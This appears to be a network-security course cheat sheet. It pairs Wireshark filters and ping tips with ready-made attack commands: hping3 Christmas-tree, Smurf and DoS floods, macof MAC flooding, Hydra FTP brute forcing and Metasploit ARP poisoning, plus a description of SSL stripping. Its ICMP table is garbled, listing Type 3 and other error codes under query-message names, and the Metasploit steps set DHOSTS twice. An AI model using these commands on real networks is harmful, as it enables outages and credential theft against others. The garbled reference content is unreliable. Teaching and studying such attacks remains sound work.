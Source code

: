 **Instructor: Dimitris Amprazis**

#### Types of Attacks:
1. [ARP Cache Poisoning / Spoofing](#arp-cache-poisoning--spoofing-w-metasploit)
1. [SMURF Attack / ICMP Flooding](#hping-commands)
1. [Denial of Service / DoS Attack](#hydra-command)
1. [Christmas Tree Attack](#hping-commands)
1. [Brute Force Attack](#hydra-command)
1. [MAC Flooding](#macof-commands)
1. [SSL Stripping](#ssl-stripping)

#### Wireshark Utils:
- Comparison: 
    - source ip filter: `ip.src==216.58.198.14`
    - destination ip filter: `ip.dst==192.168.1.49`
    - `tcp.port eq 80`
    - `ip.dst != 192.168.1.1`
- Boolean filter: `http||arp`
- Boolean & Comparison filter combination: `http&&ip.src==95.100.242.40`
- Filter lost TCP Segment filter: `tcp.analysis.lost_segment`
- Filter TCP latency above n second: `tcp.time_delta > n`
- Filter Retransmitted TCP Segment: `tcp.analysis.retransmission`
- Filter a frame that contains a specific text: `frame contains username123`
- Show suspicious traffic (if any): `Analyze > Expert Information > Severity:Warning`
- Filter Specific http methods: `http.request.method==POST`
- Filter all FTP Traffic: `ftp.request.command` 
- Filter all FTP Data Traffic: `ftp-data` 
- Filter all Telnet Traffic: `telnet` 
- Filter all SMTP Traffic: `smtp` 
- Filter all DNS Traffic: `dns` 
- Filter DNS Query Answers more than 4:
  > `dns.count.answers > 4` 
  > 
  > This is used for inspecting whether any zombie is present in a network and trying to connect to a C2 server, so on DNS resolving and an answer more than 4 we can suspect it to be a malicious url.
  >
  > Also using the PDU Hierarchical Viewer and under "**Domain Name System (response)**" for a selected DNS response packet we can see the field "**Answer RRs**" that shows the DNS Query Answers returned.
- View Protocol Hierarchy: 
  > `Statistics > Protocol Hierarchy`
  >
  > The above window shows a list of protocols that has been used to communicate.
  >
  > Mostly this is used to find any suspicious traffic especially in the TCP section when the segment is shown as **"Data"**.
  >
  > Wireshark does it because it doesn't what kind of payload is present inside its PDU(there could be false +ves).
- Filtering capture before scanning:
  > NOTE: The following steps might vary for every protocol but the procedure remains the same.
  - `Capture > Capture Filters >` Press <kbd>+</kbd> `> [SET THE NAME AND FILTER]`
  - `[INTERFACE SELECTION WINDOW] > [PRESS GREEN BOOKMARK BUTTON AND SELECT THE CREATED FILTER] > [DOUBLE CLICK INTERFACE]`
- Insert a key to decrypt captured packets: `Edit > Preferences > Protocols > [SELECT SPECIFIC PROTOCOL] > Decryption Keys [EDIT] >` Press <kbd>+</kbd> ` > [ADD KEY TYPE AND KEY]`. 
- Extract a binary file from TCP Stream:
  - `Right click contextual data packet from capture window > Follow > TCP Stream`
  - `Show and save data as > Raw > Save as`
- Kerberos Misc:
  - Filter user account names: `kerberos.CNameString and !(kerberos.CNameString contains $)`
  - View domain name: `PDU Hierarchical Viewer > Kerberos > as-req > req-body > cname > realm`
- List HTTP Objects: `File > Export Objects > HTTP`

---

#### ICMP / Ping / Host Discovery Utils:

  > **NOTE**:
  > - ICMP Payload size is 32 Bytes
  > - ICMP MTU is 1472 bytes. Beyond that packet is fragmented

  - **Ping Util**:
    > **Normal Ping Requests** - `ping 192.168.1.2`
    >
    > **Ping Requests with hostname resolution** - `ping -a 192.168.1.2`
    >
    > **Ping n number of packets** - `ping -n 8 192.168.1.2`
    >
    > **Fragment Ping packet** - `ping -l 33 192.168.1.2`

  - **ICMP Codes**:

    | Query Codes                       |      Error Codes                  |
    |-----------------------------------|-----------------------------------|
    | **Type 0** - Echo Reply           | **Type 3** - Echo Reply           |
    | **Type 8** - Echo Request         | **Type 4** - Echo Request         |
    | **Type 9** - Router Advertisement | **Type 5** - Router Advertisement |
    | **Type 10** - Router Solicitation | **Type 11** - Router Solicitation |
    | **Type 13** - Timestamp Request   | **Type 12** - Timestamp Request   |
    | **Type 14** - Timestamp Reply

---

#### Hping Commands:

- Perform Christmas Tree Attack:
  > \> `hping3 <victim's_ip> --flood --rand-source --destport 80 -c 25000 --syn --ack --fin --rst --push --urg --xmas --ymas`

- Perform SMURF Attack / ICMP Flooding:
  > \> `hping3 --icmp --flood -a <spoofed_victim's_ip> <broadcast_ip>`

- Perform Denial of Service / DoS Attack:
  > \> `hping3 -c <no_of_packets_to_send> -d <packet_size> -S -w <tcp_window_size> -p <port_no> --flood --randsource <target's_ip>`

---

#### macof Commands:
- Simple MAC Flooding: `macof -i <interface_name> [-n <int>]`
- Targeted MAC Flooding: `macof -i <interface_name> -d <target's_ip>`

---

#### Hydra Command:
- Perform Brute force on FTP:
  > `hydra -L <username_lists.txt> -P <passwd_lists.txt> [-vV] <target's_ip> ftp`

---

#### ARP Cache Poisoning / Spoofing (/w Metasploit):

- use the following aux module:
  >msf > `use auxiliary/spoof/arp/arp_poisoning`

- set the **target's** & **gateway's** ip address:
  >msf > `set DHOSTS <target's_ip>`
  >
  >msf > `set DHOSTS <gateway's_ip>`

- run the command:
  >msf > `exploit`

---

#### SSL Stripping:
> AKA SSL downgrade or HTTP downgrade attacks which is a type of cyber attack where hackers downgrade a web connection from the more secure **HTTPS** to the less secure **HTTP**. This makes all communications unencrypted and sets the stage for a man-in-the-middle attack, in which the hacker sits in the middle of a conversation listening or intercepting information.

---

#### Extras:
- Tor Communcations can't be monitored in Wireshark instead we can use **[NetworkMiner](https://www.netresec.com/?page=NetworkMiner)**. Also the capture data shown is much more jargonless.
